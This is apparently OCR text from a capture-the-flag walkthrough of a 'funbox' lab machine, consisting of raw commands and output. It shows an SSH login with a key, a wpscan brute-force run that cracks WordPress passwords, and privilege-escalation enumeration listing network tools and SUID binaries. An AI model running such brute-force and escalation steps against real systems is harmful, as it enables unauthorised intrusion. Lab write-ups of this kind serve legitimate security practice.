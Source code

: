 
ssh funny@192.168.229.77 -i id_rsa



wpscan --url http://funbox.fritz.box/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin,joe
 | Username: joe, Password: 12345
 | Username: admin, Password: iubire


 shh joe@192.168.
 12345


 No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 20.04 LTS
Release:        20.04
Codename:       focal



/usr/bin/nc
/usr/bin/netcat
/usr/bin/wget
/usr/bin/curl
/usr/bin/ping
/usr/bin/base64
/usr/bin/python
/usr/bin/python2
/usr/bin/python3
/usr/bin/python2.7
/usr/bin/perl
/usr/bin/php
/usr/bin/sudo
/snap/bin/lxc


root           1  0.0  1.1 104188 11280 ?        Ss   14:20   0:01 /sbin/init maybe-ubiquity


/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/snap/core18/1880/bin/mount
/snap/core18/1880/bin/ping
/snap/core18/1880/bin/su
/snap/core18/1880/bin/umount
find: ‘/snap/core18/1880/etc/ssl/private’: Permission denied
find: ‘/snap/core18/1880/root’: Permission denied
/snap/core18/1880/usr/bin/chfn
/snap/core18/1880/usr/bin/chsh
/snap/core18/1880/usr/bin/gpasswd
/snap/core18/1880/usr/bin/newgrp